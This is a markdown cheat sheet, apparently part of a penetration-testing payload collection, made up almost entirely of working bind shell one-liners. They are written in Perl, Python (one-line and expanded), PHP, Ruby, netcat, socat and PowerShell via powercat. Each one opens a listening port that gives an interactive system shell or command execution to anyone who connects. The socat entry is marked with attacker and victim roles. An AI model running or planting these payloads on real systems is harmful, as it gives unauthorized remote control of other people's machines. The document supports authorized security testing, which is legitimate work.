 ## Bind Shells

### Perl
```perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

### Python
**Single line:**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**Expanded version:**
```python
import socket as s,subprocess as sp;

s1 = s.socket(s.AF_INET, s.SOCK_STREAM);
s1.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);
s1.bind(("0.0.0.0", 51337));
s1.listen(1);
c, a = s1.accept();

while True: 
    d = c.recv(1024).decode();
    p = sp.Popen(d, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE);
    c.sendall(p.stdout.read()+p.stderr.read())
```

### PHP
```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

### Ruby
```ruby
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

### Netcat Traditional
```sh
nc -nlvp 51337 -e /bin/bash
```

### Netcat OpenBSD
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

### Socat
```sh
# Attacker
socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 

# Victim
socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

### Powershell
Check out [powercat](https://github.com/besimorhino/powercat).

**Victim (listen):**
```powershell
. .\powercat.ps1
powercat -l -p 7002 -ep
```

**Connect from attacker:**
```powershell
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```
```
